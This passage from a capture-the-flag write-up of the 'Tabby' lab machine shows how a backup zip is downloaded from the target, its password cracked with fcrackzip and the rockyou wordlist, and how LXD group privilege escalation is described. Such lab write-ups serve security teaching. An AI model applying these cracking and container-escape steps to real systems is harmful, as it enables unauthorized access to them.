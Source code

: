 > **Victime Machine**:

```bash
python3 -m http.server 8001
```

> **Attacker Machine**:

```bash
wget http://10.10.10.194:8001/16162020_backup.zip

which fcrackzip
fcrackzip --help

fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip

tree -fas
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_49.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_50.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_52.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now as the user `ash` I list the system and find that it belongs to the **LXD** group, and I know that there is a vulnerability that allows privilege escalation. In the resource that exists on the Web, **[lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation){:target="_blank"}** from **HackTricks**, I can investigate the vulnerability. With `searchsploit`, I find the exploit of **S4vitar** and **vowkin**, which automates the whole attack. I just have to follow the steps to download an image and create a special container where the entire system directory will be mounted in the **`/mnt`** directory of the container, and then make the necessary modifications to escalate privileges.

> **Victime Machine**:

```bash
sudo -l
id
```
